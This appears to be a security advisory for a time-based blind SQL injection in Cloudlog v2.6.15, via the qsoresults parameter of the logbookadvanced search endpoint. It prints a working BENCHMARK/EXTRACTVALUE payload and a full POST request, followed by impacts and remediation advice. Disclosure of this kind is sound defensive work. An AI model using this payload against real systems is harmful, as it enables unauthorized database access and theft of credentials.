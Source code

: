 # SQL injection in Cloudlog v2.6.15 - qsoresults parameter


A time-based blind SQL Injection vulnerability has been identified in the **Cloudlog v2.6.15 platform**, at the endpoint /index.php/logbookadvanced/search, through the qsoresults parameter . This vulnerability allows a malicious user to execute arbitrary SQL commands on the MySQL database, compromising the security of the system.

# Vulnerable endpoint:

URL: /index.php/logbookadvanced/search

Method: POST

Vulnerable parameter: qsoresults


# Vulnerability Details:

The vulnerability exploits an SQL injection to force the execution of an SQL function (such as BENCHMARK or EXTRACTVALUE), deliberately slowing down the system to confirm the existence of the vulnerability.


Payload:

**qsoresults=250 PROCEDURE ANALYSE(EXTRACTVALUE(1073,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x65636f70))))),1)**


 
**Malicious HTTP Request:**

POST /index.php/logbookadvanced/search HTTP/1.1

Host: localhost

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

Content-Length: 104


qsoresults=250 PROCEDURE ANALYSE(EXTRACTVALUE(1073,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x65636f70))))),1)



# Impact:
An attacker can exploit this vulnerability to:
Execute arbitrary SQL queries, potentially extracting sensitive data.
Compromise database integrity.
Gain unauthorized access to critical data such as user credentials.

# Recommended Solution:
Input Validation: Implement strict input sanitization for the qsoresults parameter .
Parameterized Queries: Use parameterized queries to prevent user injection of SQL commands.
Permission Restriction: Restrict the privileges of the database user used by the application.
Web Application Firewall (WAF): Implement a WAF to monitor and block SQL injection attempts.




